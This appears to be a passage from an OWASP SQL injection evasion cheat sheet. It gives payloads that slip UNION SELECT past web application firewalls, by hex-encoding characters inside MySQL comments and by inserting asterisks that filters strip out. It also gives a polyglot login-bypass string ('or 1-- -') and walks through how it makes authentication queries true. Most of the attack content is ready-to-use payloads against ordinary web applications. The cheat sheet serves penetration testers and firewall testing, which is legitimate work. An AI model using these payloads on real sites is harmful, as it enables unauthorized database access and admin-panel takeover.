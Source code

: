 2\) Replace Characters with their HEX Values: We can replace some
characters with their HEX (URL-Encoded) Values.

    Example:
        http://www.site.com/index.php?page_id=-15 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4….
        (which means “union select”)

4\) Misc Exploitable Functions: Many firewalls try to offer more
Protection by adding Prototype or Strange Functions\! (Which, of course,
we can exploit\!):

    Example:
        This firewall below replaces “*” (asterisks) with Whitespaces! What we can do is this:
        http://www.site.com/index.php?page_id=-15+uni*on+sel*ect+1,2,3,4…
        (If the Firewall removes the “*”, the result will be: 15+union+select….)
        So, if you find such a silly function, you can exploit it, in this way.

## Auth Bypass

If we need to bypass some admin panels, and we do that using or 1=1.

    Code:
    or 1-- -' or 1 or '1"or 1 or"

SELECT \* FROM login WHERE id=1 or 1-- -' or 1 or '1"or 1 or" AND
username='' AND password='' the "or 1-- -" gets active, make the
condition true and ignores the rest of the query. now lets check regular
string-

SELECT \* FROM login WHERE username=' or 1-- -' or 1 or '1"or 1 or" '
..... the "or 1" part make the query true, and the other parts are
considered as the comparison strings. same with the double quotes.
SELECT \* FROM login WHERE username=" or 1-- -' or 1 or '1"or 1 or" "

## Benchmark

Please use _' Benchmark_' and make you own SQLi Strings and test your
different test cases on
[Benchmark](https://www.owasp.org/index.php/Benchmark)

<hr>

\*If you have any SQLi Quires which is Missed above Please help to
Contribute [Mail Down](https://www.owasp.org/index.php/Dhiraj_Mishra)
and be a part of **The Popular SQLi Evasion CheatSheet.\***

## Contributor

Dhiraj Mishra (mishra.dhiraj@owasp.org)
